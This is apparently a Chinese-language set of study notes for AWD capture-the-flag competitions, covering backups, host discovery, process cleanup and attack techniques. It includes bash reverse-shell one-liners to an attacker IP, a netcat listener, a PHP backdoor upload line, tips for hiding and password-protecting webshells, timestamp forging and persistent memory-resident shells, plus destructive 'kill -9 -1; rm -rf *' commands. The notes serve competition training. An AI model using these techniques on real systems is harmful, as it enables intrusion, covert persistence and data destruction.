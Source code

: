 
# 环境

## 靶机环境

如果没有安装python，可以尝试安装到有权限写入的目录：
```sh
./configure --prefix=/home/ctf/python32  
make  
make install
```



# 命令
通常用于自动化脚本编写。
#### scp
基于ssh

```sh
# 将本地文件上传到 远程ssh server 端口为12345的目录上 
scp -P 12345 /home/1.zip root@127.0.0.1:/home
```


# 防御

## 源码备份

```sh
# zip
zip -r xxx.zip ./*
unzip xxx.zip -d

# tar
tar -cvpf xxx.tar ./* # -p 保持文件权限一致
tar -xvpf xxx.tar -C /home/ctf/xxx

```

备份到本地、以及源站上`/home/xxx`目录一份，不建议备份到`/tmp`，因为攻击者通过`/var/www/`攻击的访问权限是在`/tmp`以及`/tmp/www/html`目录下
## 信息收集


```sh
id # 获取用户所在组。根据权限的不同，进行网站恢复、不死马的查杀。
ls -l /var/www/html # 获取权限 所属者 所属组
# 权限格式：所有者权限 组权限 其他用户权限


```


### 主机发现

AWD主机发现
    线下
        大家处于一个网段，根据ip划分
        nmap
    线上
        根据端口划分(web\ssh),可能有其他比赛
        scan.py

区分选手和裁判：
        check
        down
        waf
```python
import requests

ip = 'http://61.147.171.104:'

for i in range(51200,51230):
    url = ip + str(i)
    try:
        req = requests.get(url, timeout=1).text
        if '网络探测demo' in req:
            print(url + '    success')
        else:
            print(url + '    fail')
    except:
        print(url + '    error')

```

### 目录发现

```sh
# 2是标准错误输出，输出到一个不存在的路径，可以随便填，优雅点就填下面的 `/dev/null` is a special device file where any data received by the file is discarded. The null device is often known as a **black hole** as all the data that goes into it is lost forever.
find / -name 'xxx.php' 2> /dev/null  # 注意2>必须写在一起

```

## 主机恢复


```sh
# 以www-data用户执行 （比如使用蚁剑，或自建相关木马脚本然后通过网站执行）
kill -9 -1  # 终止你拥有的全部进程
rm -rf *
# 恢复
```


## 攻击

### 上传

利用内置后门
`file_put_contents('xx', base64_decode(base64_encode('TrojansContent')))`
### 防利用

#### 后门加密码

- 写死密码
- 动态密码
- MD5
- RSA密码
#### 流量混淆

难以让别人通过流量监控知道如何攻击

### 防检测防删除
#### 混淆
- 文件名混淆、或假名
#### 困难删除
- 命名：使用`     .php`或`-- -.php`等不太好手动删除的文件（但可以直接通过FTP工具删除）
- 

#### 时间变化
 有三种时间：
- atime (access time)
- ctime (change time)
- mtime (modified time)

```sh
stat <file> # 可以查看文件状态信息，包括三种时间。
touch -r <oldFile> <newFile> # 可以将`oldFile`和`newFile`时间戳同步，但changeTime似乎会修改失败。
```

#### 不死马
首先需要www-data用户对目录有写权限去上传文件。
免杀
##### 内存马
自身执行一次后，把自己删除，自身已经驻留在内存之中，可以不断执行一些复活等操作，来进行权限维持。

**防御方法**
- 使用内存马的相同的用户（不然可能没有权限），运行`kill -9 -1 && rm -rf *`
当然如果有权限可以采用下面的命令：

```sh
ps aux | grep www-data | awk '{print $2}' | xargs kill -9
#The "ps aux" command lists all running processes on the system. 
#The "|" (pipe) symbol sends the output of the "ps aux" command to the "grep www-data" command, which searches for any processes that have "www-data" in their name. 
#The output of the "grep" command is then sent to the "awk '{print $2}'" command, which extracts the second column (the process ID) from the output. 
```


- 使用条件竞争，写相同的复活脚本，同名文件，对内容进行篡改，然后复活时间小于等于内存马，可以使其失效。

### 反弹Shell
正向连接是指由客户端向服务端发起连接请求，而反向连接则是相反。在反弹shell (reverse shell) 中，由客户端监听指定的 TCP/UDP 端口，由服务端发起连接请求到该端口，建立起shell连接。与常见的 Telnet、ssh等shell相比，不同的是由服务端主动发起。
#### 适用情况
- 由于防火墙等的控制访问策略，客户端无法访问服务端，但服务端可以向外网发起请求
- IP会动态变化，攻击机无法直接连接
- 向局域网中的主机散播木马病毒等，网络环境未知的情况下
- 服务端的AV对正向连接的流量检测非常严格，但是对出网流量校验不足
#### 过程

> 不同的操作系统可能不太一样
> 在不同的反弹shell方式中，都需要攻击者（客户端）进行监听，下文将不再赘述，仅讲述不同的反弹方式
> 需要目标机触发payload造成反弹shell

```sh
# 客户端监听端口
nc -lvvp 9999
# -l           listen mode, for inbound connects
# -v           verbose [use twice to be more verbose]
# -n           numeric-only IP addresses, no DNS
# -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])
# Netcat 是 Linux 系统下常用的网络工具，当然也有Windows版本，在 Linux 下使用命令 `nc`，前面的端口监听就是使用 Netcat

# payload1 
bash -i >& /dev/tcp/<ip>/<port> 0>&1 
# payload2 
bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"

#`/dev/tcp/IP/PORT` 特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 `bash` 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。
#`>&` 将联合符号前面的内容与后面相结合，然后一起重定向给后者。
#`0>&1` 将标准输入standard input (0)与标准输出standard output (1)的内容相结合，然后重定向给前面标准输出的内容。
# -i interactive。即产生一个交互式的shell（bash）。

```


[Linux 反弹shell（二）反弹shell的本质 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2549)
其实原理就是这张图：
![](../../attachments/Pasted%20image%2020230907170754.png)

